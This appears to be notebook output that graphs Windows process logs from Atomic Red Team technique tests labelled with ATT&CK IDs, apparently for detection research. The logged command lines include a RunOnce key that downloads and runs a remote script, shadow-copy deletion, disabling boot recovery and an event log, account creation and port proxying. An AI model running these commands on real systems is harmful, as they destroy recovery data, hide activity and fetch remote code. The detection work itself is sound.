627322 : schtasks__/query_/tn_win32times&C:\Windows\system32\schtasks.exe&schtasks.exe&4724
../graph_benign2/T1036.004_7de3d7b4922a7b996d8df36fb22bb118.png has been generated!
T1090.001_ba343199a4f15ed6b57eb52412f62e4e


<Figure size 432x288 with 0 Axes>



 70%|███████   | 116/165 [13:41<01:24,  1.72s/it]

Number of relations in the graph: 2
740395 : powershell.exe_-ExecutionPolicy_Bypass_-C_"netsh_interface_portproxy_add_v4tov4_listenport=1337_connectport=1337_connectaddress=127.0.0.1"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&10840
282064 : "C:\Windows\system32\netsh.exe"_interface_portproxy_add_v4tov4_listenport=1337_connectport=1337_connectaddress=127.0.0.1&C:\Windows\system32\netsh.exe&netsh.exe&5024
275110 : HKLM\System\CurrentControlSet\Services\PortProxy\v4tov4\tcp\*/1337
../graph_benign2/T1090.001_ba343199a4f15ed6b57eb52412f62e4e.png has been generated!
T1518_c9be8043-a445-4cbf-b77b-ed7bb007fc7c


<Figure size 432x288 with 0 Axes>



 71%|███████   | 117/165 [13:44<01:29,  1.86s/it]

Number of relations in the graph: 2
32030 : reg__query_"HKEY_LOCAL_MACHINE\Software\Microsoft\Internet_Explorer"_/v_svcVersion&C:\Windows\system32\reg.exe&reg.exe&6844
704355 : HKLM\SOFTWARE\Microsoft\Internet_Explorer\svcVersion
88027 : powershell.exe_-ExecutionPolicy_Bypass_-C_"(Get-ItemProperty_'HKLM:\SOFTWARE\Microsoft\Internet_Explorer').Version"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&9436
../graph_benign2/T1518_c9be8043-a445-4cbf-b77b-ed7bb007fc7c.png has been generated!
T1105_1095434782a00c8a4772a11e625bcf5d


<Figure size 432x288 with 0 Axes>



 72%|███████▏  | 118/165 [13:46<01:30,  1.92s/it]

Number of relations in the graph: 2
218246 : cmd.exe_/C_finger_base64_filedata@localhost&C:\Windows\system32\cmd.exe&cmd.exe&2192
327930 : finger__base64_filedata@localhost&C:\Windows\system32\finger.exe&finger.exe&7148
1644 : DESKTOP-BA1RQFC.blueteam.com&DESKTOP-BA1RQFC.blueteam.com:finger
../graph_benign2/T1105_1095434782a00c8a4772a11e625bcf5d.png has been generated!
T1531_b25ae80dad74142fafb510e9c1949ace


<Figure size 432x288 with 0 Axes>



 72%|███████▏  | 119/165 [13:47<01:27,  1.89s/it]

Number of relations in the graph: 2
261123 : cmd.exe_/C_net_user_AtomicUser_User2DeletePW!_/add_&&_net.exe_user_AtomicUser_/delete&C:\Windows\system32\cmd.exe&cmd.exe&9752
667860 : net__user_AtomicUser_User2DeletePW!_/add_&C:\Windows\system32\net.exe&net.exe&9232
593499 : net.exe__user_AtomicUser_/delete&C:\Windows\system32\net.exe&net.exe&7508
../graph_benign2/T1531_b25ae80dad74142fafb510e9c1949ace.png has been generated!
T1053.005_5db2884b6ca3ab932848f295a3896dc0


<Figure size 432x288 with 0 Axes>



 73%|███████▎  | 120/165 [13:49<01:25,  1.91s/it]

Number of relations in the graph: 2
695322 : cmd.exe_/C_schtasks_/create_/tn_"T1053_005_OnLogon"_/sc_onlogon_/tr_"cmd.exe_/c_calc.exe"_&&_schtasks_/create_/tn_"T1053_005_OnStartup"_/sc_onstart_/ru_system_/tr_"cmd.exe_/c_calc.exe"&C:\Windows\system32\cmd.exe&cmd.exe&11104
272495 : schtasks__/create_/tn_"T1053_005_OnLogon"_/sc_onlogon_/tr_"cmd.exe_/c_calc.exe"_&C:\Windows\system32\schtasks.exe&schtasks.exe&3584
147147 : schtasks__/create_/tn_"T1053_005_OnStartup"_/sc_onstart_/ru_system_/tr_"cmd.exe_/c_calc.exe"&C:\Windows\system32\schtasks.exe&schtasks.exe&2444
../graph_benign2/T1053.005_5db2884b6ca3ab932848f295a3896dc0.png has been generated!
T1547.001_4b71ebb2f6f6a01235ba240fa40ce978


<Figure size 432x288 with 0 Axes>



 73%|███████▎  | 121/165 [13:51<01:21,  1.84s/it]

Number of relations in the graph: 2
549168 : powershell.exe_-ExecutionPolicy_Bypass_-C_"$RunOnceKey_=_\"HKLM:\Software\Microsoft\Windows\CurrentVersion\RunOnce\";_set-itemproperty_$RunOnceKey_\"NextRun\"_'powershell.exe_\"IEX_(New-Object_Net.WebClient).DownloadString(`\"https://raw.githubusercontent.com/redcanaryco/atomic-red-team/36f83b728bc26a49eacb0535edc42be8c377ac54/ARTifacts/Misc/Discovery.bat`\")\"'"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&3136
180580 : HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce\NextRun
../graph_benign2/T1547.001_4b71ebb2f6f6a01235ba240fa40ce978.png has been generated!
T1531_aa6b15485a5f50ced34d87fda177b758


<Figure size 432x288 with 0 Axes>



 74%|███████▍  | 122/165 [13:53<01:19,  1.84s/it]

Number of relations in the graph: 2
593694 : cmd.exe_/C_net_user_AtomicAdministrator_User2ChangePW!_/add_&&_net.exe_user_AtomicAdministrator_HuHuHUHoHo283283@dJD&C:\Windows\system32\cmd.exe&cmd.exe&5292
558613 : net__user_AtomicAdministrator_User2ChangePW!_/add_&C:\Windows\system32\net.exe&net.exe&11172
759193 : net.exe__user_AtomicAdministrator_HuHuHUHoHo283283@dJD&C:\Windows\system32\net.exe&net.exe&10976
../graph_benign2/T1531_aa6b15485a5f50ced34d87fda177b758.png has been generated!
T1069.001_a1f48fa3ddee658b29b414523c9a295b


<Figure size 432x288 with 0 Axes>



 75%|███████▍  | 123/165 [13:55<01:15,  1.81s/it]

Number of relations in the graph: 2
397237 : cmd.exe_/C_net_localgroup_&&_net_localgroup_"Administrators"&C:\Windows\system32\cmd.exe&cmd.exe&8568
191757 : net__localgroup_&C:\Windows\system32\net.exe&net.exe&4912
469425 : net__localgroup_"Administrators"&C:\Windows\system32\net.exe&net.exe&1560
../graph_benign2/T1069.001_a1f48fa3ddee658b29b414523c9a295b.png has been generated!
T1036.004_1f0614ea5c4af6faf1b44570f5f22f8a


<Figure size 432x288 with 0 Axes>



 75%|███████▌  | 124/165 [13:56<01:13,  1.79s/it]

Number of relations in the graph: 2
205565 : cmd.exe_/C_sc_create_win32times_binPath=_"cmd_/c_start_c:\T1036.004_NonExistingScript.ps1"_&&_sc_qc_win32times&C:\Windows\system32\cmd.exe&cmd.exe&5168
733769 : sc__create_win32times_binPath=_"cmd_/c_start_c:\T1036.004_NonExistingScript.ps1"_&C:\Windows\system32\sc.exe&sc.exe&200
250773 : sc__qc_win32times&C:\Windows\system32\sc.exe&sc.exe&9080
../graph_benign2/T1036.004_1f0614ea5c4af6faf1b44570f5f22f8a.png has been generated!
T1564.003_9a2edad4053a2b59fb9167a9bc29e7dc


<Figure size 432x288 with 0 Axes>



 76%|███████▌  | 125/165 [13:58<01:09,  1.74s/it]

Number of relations in the graph: 2
221197 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Start-Process_powershell.exe_-WindowStyle_hidden_calc.exe"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&9076
223039 : "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"_calc.exe_&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&5880
411768 : "C:\Windows\system32\calc.exe"&C:\Windows\system32\calc.exe&calc.exe&1116
../graph_benign2/T1564.003_9a2edad4053a2b59fb9167a9bc29e7dc.png has been generated!
T1490_8467c994685ccf178db166964bd80fab


<Figure size 432x288 with 0 Axes>



 76%|███████▋  | 126/165 [14:00<01:07,  1.72s/it]

Number of relations in the graph: 2
609483 : cmd.exe_/C_bcdedit.exe_/set_{default}_bootstatuspolicy_ignoreallfailures_&&_bcdedit.exe_/set_{default}_recoveryenabled_no&C:\Windows\system32\cmd.exe&cmd.exe&10536
184600 : bcdedit.exe__/set_{default}_bootstatuspolicy_ignoreallfailures_&C:\Windows\system32\bcdedit.exe&bcdedit.exe&6676
108433 : bcdedit.exe__/set_{default}_recoveryenabled_no&C:\Windows\system32\bcdedit.exe&bcdedit.exe&9840
../graph_benign2/T1490_8467c994685ccf178db166964bd80fab.png has been generated!
T1564_dedfa0a54c9c13ce5714a0dc2e1f5d1a


<Figure size 432x288 with 0 Axes>



 77%|███████▋  | 127/165 [14:01<01:04,  1.69s/it]

Number of relations in the graph: 1
764692 : cmd.exe_/C_net_user_$_ATOMIC123!_/add_/active:yes&C:\Windows\system32\cmd.exe&cmd.exe&2324
131603 : net__user_$_ATOMIC123!_/add_/active:yes&C:\Windows\system32\net.exe&net.exe&3688
../graph_benign2/T1564_dedfa0a54c9c13ce5714a0dc2e1f5d1a.png has been generated!
T1047_f4b0b4129560ea66f9751275e82f6bab


<Figure size 432x288 with 0 Axes>



 78%|███████▊  | 128/165 [14:03<01:00,  1.63s/it]

Number of relations in the graph: 1
448123 : powershell.exe_-ExecutionPolicy_Bypass_-C_"wmic_/node:127.0.0.1_process_call_create_\"rundll32.exe_$env:TEMP\calc.dll_StartW\""&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&10764
750216 : "C:\Windows\System32\Wbem\WMIC.exe"_/node:127.0.0.1_process_call_create_"rundll32.exe_C:\Users\ezk\AppData\Local\Temp\calc.dll_StartW"&C:\Windows\System32\Wbem\WMIC.exe&WMIC.exe&6996
../graph_benign2/T1047_f4b0b4129560ea66f9751275e82f6bab.png has been generated!
T1057_b2a1e430ca6d36eb5af2fe666e769847


<Figure size 432x288 with 0 Axes>



 78%|███████▊  | 129/165 [14:04<00:57,  1.58s/it]

Number of relations in the graph: 1
369945 : cmd.exe_/C_wmic_process_get_/format:list&C:\Windows\system32\cmd.exe&cmd.exe&7780
74885 : wmic__process_get_/format:list&C:\Windows\System32\Wbem\WMIC.exe&WMIC.exe&1832
../graph_benign2/T1057_b2a1e430ca6d36eb5af2fe666e769847.png has been generated!
T1016_a0676fe1-cd52-482e-8dde-349b73f9aa69


<Figure size 432x288 with 0 Axes>



 79%|███████▉  | 130/165 [14:06<01:02,  1.78s/it]

Number of relations in the graph: 1
218859 : powershell.exe_-ExecutionPolicy_Bypass_-C_".\wifi.ps1_-Pref"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&5684
52999 : "C:\Windows\system32\netsh.exe"_wlan_show_profiles&C:\Windows\system32\netsh.exe&netsh.exe&2308
../graph_benign2/T1016_a0676fe1-cd52-482e-8dde-349b73f9aa69.png has been generated!
T1049_638fb6bb-ba39-4285-93d1-7e4775b033a8


<Figure size 432x288 with 0 Axes>



 79%|███████▉  | 131/165 [14:09<01:05,  1.93s/it]

Number of relations in the graph: 1
325766 : powershell.exe_-ExecutionPolicy_Bypass_-C_"netstat_-anto;Get-NetTCPConnection"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&4216
543463 : "C:\Windows\system32\NETSTAT.EXE"_-anto&C:\Windows\system32\NETSTAT.EXE&NETSTAT.EXE&10680
../graph_benign2/T1049_638fb6bb-ba39-4285-93d1-7e4775b033a8.png has been generated!
T1490_c156ac5c9fa67080365268d95f29053d


<Figure size 432x288 with 0 Axes>



 80%|████████  | 132/165 [14:11<01:03,  1.92s/it]

Number of relations in the graph: 1
763105 : cmd.exe_/C_wmic.exe_shadowcopy_delete&C:\Windows\system32\cmd.exe&cmd.exe&1900
640542 : wmic.exe__shadowcopy_delete&C:\Windows\System32\Wbem\WMIC.exe&WMIC.exe&4632
../graph_benign2/T1490_c156ac5c9fa67080365268d95f29053d.png has been generated!
T1047_ed736a123da6fb2aab22cfd4f437e8b5


<Figure size 432x288 with 0 Axes>



 81%|████████  | 133/165 [14:13<01:01,  1.91s/it]

Number of relations in the graph: 1
30184 : cmd.exe_/C_wmic_qfe_get_description,installedOn_/format:csv&C:\Windows\system32\cmd.exe&cmd.exe&5580
485175 : wmic__qfe_get_description,installedOn_/format:csv&C:\Windows\System32\Wbem\WMIC.exe&WMIC.exe&5048
../graph_benign2/T1047_ed736a123da6fb2aab22cfd4f437e8b5.png has been generated!
T1562.002_94f51bf01a7036fe02d07b4c18967669


<Figure size 432x288 with 0 Axes>



 81%|████████  | 134/165 [14:14<00:57,  1.85s/it]

Number of relations in the graph: 1
472729 : cmd.exe_/C_wevtutil_sl_"Microsoft-Windows-IKE/Operational"_/e:false&C:\Windows\system32\cmd.exe&cmd.exe&6480
433814 : wevtutil__sl_"Microsoft-Windows-IKE/Operational"_/e:false&C:\Windows\system32\wevtutil.exe&wevtutil.exe&9732
../graph_benign2/T1562.002_94f51bf01a7036fe02d07b4c18967669.png has been generated!
T1016_e8017c46-acb8-400c-a4b5-b3362b5b5baa


<Figure size 432x288 with 0 Axes>



 82%|████████▏ | 135/165 [14:16<00:55,  1.83s/it]

Number of relations in the graph: 1
506686 : powershell.exe_-ExecutionPolicy_Bypass_-C_ipconfig&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2700
708988 : "C:\Windows\system32\ipconfig.exe"&C:\Windows\system32\ipconfig.exe&ipconfig.exe&1992
../graph_benign2/T1016_e8017c46-acb8-400c-a4b5-b3362b5b5baa.png has been generated!
T1016_921055f4-5970-4707-909e-62f594234d91


<Figure size 432x288 with 0 Axes>



 82%|████████▏ | 136/165 [14:18<00:51,  1.79s/it]

Number of relations in the graph: 1
262572 : powershell.exe_-ExecutionPolicy_Bypass_-C_"ping_desktop-ba1rqfc.blueteam.com"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&5748
255488 : "C:\Windows\system32\PING.EXE"_desktop-ba1rqfc.blueteam.com&C:\Windows\system32\PING.EXE&PING.EXE&364
../graph_benign2/T1016_921055f4-5970-4707-909e-62f594234d91.png has been generated!
T1518.001_2dece965-37a0-4f70-a391-0f30e3331aba


<Figure size 432x288 with 0 Axes>



 83%|████████▎ | 137/165 [14:19<00:49,  1.78s/it]

Number of relations in the graph: 1
